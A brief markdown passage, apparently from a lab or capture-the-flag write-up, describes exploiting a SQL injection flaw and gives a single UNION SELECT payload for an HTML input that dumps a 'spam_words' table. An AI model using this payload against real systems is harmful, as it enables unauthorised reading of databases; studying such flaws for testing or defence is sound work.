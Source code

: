 ## SQL Injection

### Get data from the database
Use the below in the HTML input to exploit the SQL Injection Vulnerability and read all data from the database
```sql
%' UNION SELECT word FROM spam_words--
```

